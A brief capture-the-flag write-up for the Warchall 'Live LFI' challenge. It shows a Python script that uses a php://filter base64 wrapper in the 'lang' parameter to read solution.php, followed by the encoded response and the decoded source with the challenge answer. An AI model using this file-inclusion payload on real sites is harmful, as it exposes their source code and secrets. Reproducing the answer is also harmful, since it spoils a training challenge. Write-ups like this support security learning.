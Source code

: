 ================================================================================================================
[wechall] Warchall: Live LFI
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="index.php?lang=php://filter/convert.base64-encode/resource=solution.php',true);?>",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|


solve
================================================================================================================


.. code-blcok:: python

    import requests


    url = "http://lfi.warchall.net/index.php"

    params = {
        "lang": "php://filter/convert.base64-encode/resource=solution.php"
    }

    r = requests.get(url, params=params, verify=False)
    print r.content

**return page**

PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcgc2kgbmFlciE8L3ByZT4KPHByZSBzdHlsZT0iY29sb3I6I2ZmZjsiPnRoZSBmbGFnIGlzIG5lYXIhPC9wcmU+CjwvYm9keT4KPC9odG1sPgo8P3BocCAgICAgICAgICAgICAgICAgICMgICBZT1VSX1RST1BIWSAKcmV0dXJuICdTdGVwcGluU3RvbmVzNDJQaWUnOyAjIDwtwrQgPz4K

base64 decode

.. code-block:: html

    <html>
    <body>
    <pre style="color:#000;">teh falg si naer!</pre>
    <pre style="color:#fff;">the flag is near!</pre>
    </body>
    </html>
    <?php                  #   YOUR_TROPHY 
    return 'SteppinStones42Pie'; # <-?? ?>
